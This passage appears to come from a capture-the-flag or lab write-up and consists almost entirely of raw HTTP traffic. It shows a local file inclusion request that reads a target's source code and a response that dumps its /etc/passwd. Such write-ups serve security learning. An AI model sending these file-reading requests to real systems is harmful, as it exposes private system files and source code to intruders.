 ```http
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 05 Apr 2022 23:35:46 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 1488

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
_chrony:x:105:112:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000::/vagrant:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
dev:x:1001:1001::/home/dev:/bin/bash
```

### Source of `activate_license.php`

```http
GET /index.php?page=activate_license.php HTTP/1.1
Host: 10.129.160.64
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 05 Apr 2022 18:53:06 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 585

<?php
if(isset($_FILES['licensefile'])) {
    $license      = file_get_contents($_FILES['licensefile']['tmp_name']);
    $license_size = $_FILES['licensefile']['size'];

    $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
```